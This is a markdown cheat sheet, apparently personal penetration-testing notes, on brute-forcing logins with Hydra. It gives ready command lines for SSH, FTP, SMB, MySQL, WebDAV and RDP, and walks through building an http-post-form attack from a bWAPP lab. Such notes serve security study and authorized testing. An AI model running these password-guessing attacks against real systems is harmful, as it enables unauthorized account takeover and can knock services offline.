 # [Hydra](https://rodtrent.substack.com/p/using-kali-linux-and-hydra-for-attack)
> Hydra is extremely functional for brute-forcing MULTIPLE different protocols.

You may need to unzip the RockYou wordlist:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz .
```

If Hydra throws an error or for some reason does not work, try [CrackMapExec](cme.md).

## Contents
- [Syntax](#general-syntax-by-usage-example)
- [Configuration](#configuration)
  - [Speed Kills, Del](#speed-kills-del)
  - [Common Options](#common-options)
- [Protocol Examples](#specific-protocol-examples): [`FTP`](#ftp), [`SMB`](#smb), [`SSH`](#ssh), [`MySQL`](#mysql), [`WebDAV`](#webdav), [`RDP`](#rdp)
- [HTTP Login Form: http-post-form](#http-login-form-http-post-form)
  - [General Syntax](#general-syntax)
  - [Intercept a Random, Invalid Login](#intercept-a-random-invalid-login)
  - [Capture a Failed Login String](#capture-a-failed-login-string)
  - [Final Syntax](#final-syntax)
  - [Additional Help](#additional-help)

## General Syntax (by usage example):

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
```

- `-l root` : attempt to login as the root user
- `-P /usr/.../unix_passwords.txt` : using a password list
- `-t 6` : with 6 threads
- `ssh://192.168.1.123` : attacking SSH at the target IP

## Configuration

### Common Options
- `-L` or `-l` : Indicates the "Login" (capital: file of multiple; lower case for single)
- `-P` or `-p`: Indicates the "Passwords" (capital: file of multiple; lower case for single)

### Speed Kills, Del
- Be very careful with your brute-force speed. You could crash the system or DoS it. 
- The `-t` (tasks) option sets the number of connects in parallel (default is 16)
- You could set `-t 2` or `-t 3` and see if that plays nicer. Hydra actually recommends `-t 1` through `-t 4`.

## Specific Protocol Examples

### FTP
```
hydra -L [path/to/username_file.txt] -P [path/to/password_file.txt] [target ip] ftp
```

### SMB
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [target IP] smb
```

### SSH
```
hydra -l student -P rockyou.txt [ip] ssh
```

### MySQL
```
hydra -l root -P /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt [target ip] mysql
```

### WebDAV
```
hydra -L /.../common-users.txt -P  /.../common-passwords.txt [target ip] http-get /webdav/
```
- `http-get` : Indicates the protocol to be used
- `/webdav/` : Indicates the directory where hydra can find the authentication mechanism

### RDP
```
hydra -L users.txt -P passwords.txt [target ip] rdp -s 3333
```
- `-s` : service port (if different than the default)

## HTTP Login Form: http-post-form
> This was taken from a lab (and the syntax is complicated). The lab used bWAPP as the vulnerable target website and Burp Suite as the proxy.

### General Syntax
```
<url>:<form parameters>:<condition string>[:<optional>[:<optional>]
#[1]    [2]             [3]  
```
1. First is the page on the server to GET from or POST to (URL of the login page)
2. Second is the POST/GET variables (taken from either the browser, proxy, etc. with url-encoded (resp. base64-encoded) usernames and passwords being replaced in the "^USER^" (resp. "^USER64^") and "^PASS^" (resp. "^PASS64^") placeholders (FORM PARAMETERS).
3. Third is the string that it checks for an *invalid* login (by default)
    - This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!

### Intercept a Random, Invalid Login
- Copy and paste the login syntax being POSTed to the server.
- Change the login variables (the random username and password you plugged in) to the **_placeholders_** required by Hydra. These placeholders function as variables and Hydra will plug in its attempts into these placeholders/variables.

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/3a32dae8-e9b6-48d6-b73e-e002cca6b7f2)

### Capture a Failed Login String
- This is where most people get it wrong. You have to check in the webapp what a failed string looks like and put it in this parameter!

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/a9bc4a0d-338c-4f16-8820-bb324eb027f8)

### Final Syntax
```
hydra -L user_list.txt -P password_list.txt http://192.103.189.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
# the 3 required arguments in the http-post-form are colon-separated:             [1] <url>    [2] <form parameters>                                   [3]  <condition string>
```

### Additional Help
```
hydra -U http-post-form
# -U : service module usage details
```




